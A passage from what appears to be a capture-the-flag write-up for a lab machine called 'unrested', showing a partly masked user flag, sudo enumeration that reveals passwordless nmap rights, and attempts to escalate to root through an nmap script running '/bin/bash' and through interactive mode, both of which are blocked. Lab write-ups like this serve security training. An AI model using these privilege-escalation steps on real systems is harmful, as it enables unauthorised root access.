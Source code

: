 zabbix is able to read `user.txt` from `/home/matthew`:

```

zabbix@unrested:/home/matthew$ cat user.txt
262e6aa3************************

```

## Shell as root

### Enumeration

The zabbix user is able to run `nmap` as any user without a password:

```

zabbix@unrested:/home/matthew$ sudo -l
Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *

```

### Fails

#### Script Mode / Interactive / File Input

A command technique to get execution through `nmap` is using the `--script` argument. I’ll create a dummy script:

```

zabbix@unrested:~$ echo 'os.execute("/bin/bash")' > test.sh

```

This will just return a shell when run. Now run `nmap` and pass it the script:

```

zabbix@unrested:~$ sudo nmap --script=test.sh            
Script mode is disabled for security reasons.

```

The same thing happens when trying to run `nmap` with `--interactive`:

```

zabbix@unrested:~$ sudo nmap --interactive
Interactive mode is disabled for security reasons.

```
